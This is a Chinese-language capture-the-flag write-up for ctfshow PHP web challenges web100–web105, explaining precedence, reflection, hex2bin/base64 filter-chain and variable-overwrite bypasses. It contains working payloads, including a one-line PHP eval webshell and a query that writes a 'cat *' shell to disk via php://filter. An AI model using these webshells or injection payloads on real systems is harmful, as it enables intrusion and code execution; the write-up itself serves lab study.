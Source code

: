     ?n=2.php
    content=<?php @eval($_POST[1]);?>

## web100

首先存在一个优先级问题，and和&&的优先级是不一样的，and甚至比=的优先级低，所以代码中v0的值就等于第一个and之前的值。
所以首先，只需要保证v1为数字就可以绕过对于v0的判断。
第二部分，对于输出flag的值，可以知道v3要为分号，但是由于正则不能让分号在第一个字符的位置，所以可以添加内联使得分号不在第一个字符的位置。
所以可以采用的payload如下：

    ?v1=1&v2=var_dump($ctfshow)/*&v3=*/;

但是查看了大佬的wp，其实这是要考反射，所以这里写一下预期解：

    ?v1=1&v2=echo new ReflectionClass&v3=/**/;

## web101

用上一题的预期解

## web102

hex2bin():把十六进制转二进制字符串（转成字母）
本身是可以用hex2bin()函数绕过的，因为is_numeric()在php5环境下对于十六进制也是true，但是这道题是php7环境的，所以is_numeric()在这道题环境下绕不过。
参考了别的师傅的wp,再base64一下，需要一个全是数字的base64。。。额
参考wp，此处使用的shell是：

    <?=`cat *`;

它base64一下，是PD89YGNhdCAqYDs=，等号是填充的可以不用。
然后转化成十六进制是5044383959474e6864434171594473。倒推一下，前面还要加两位数字。比如99，就是995044383959474e6864434171594473。
(e会被当做是科学计数法，可以绕过is_numeric)
再来还原一下这个过程：
取v2前两位之后的字符串，再使其hex2bin变成字符串，然后在写入文件的时候将其base64解码。
所以payload:

    ?v2=995044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php
    v1=hex2bin

## web103

同上题

## web104

代码审计，太简单了直接v1=v2=1

    ?v2=1
    v1=1

## web105

代码审计，对于每一个get，把值作为变量名的变量传递给键的变量名的变量，但是键不能为error；
对于每一个post同理，但是值不能为flag。
代码审计，下面无论如何都会执行die($error)，所以干脆把error的值替换为flag的值，让这里直接输出flag。
但是又有上面get和post的限制，所以传递一下就好了。
